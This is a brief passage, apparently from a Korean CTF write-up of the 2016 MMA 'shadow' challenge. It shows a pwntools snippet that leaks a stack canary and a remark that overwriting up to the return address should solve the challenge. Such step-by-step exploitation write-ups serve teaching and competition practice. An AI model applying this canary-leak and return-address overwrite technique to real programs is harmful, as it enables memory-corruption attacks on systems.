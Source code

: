 ```python
s.recvuntil(payload)
canary = u32("\x00" + s.recv(3))

print "[*] canary : " + hex(canary)
```

{: refdef: style="text-align: center;"}
![yes_canary](/img/2016_mma/shadow/08.png)
{: refdef}

`canary`값을 알아냈어요. 그럼 `ret`까지 쭉 덮으면 풀리겠네요!

{: refdef: style="text-align: center;"}
![before_ret](/img/2016_mma/shadow/09.png)
{: refdef}
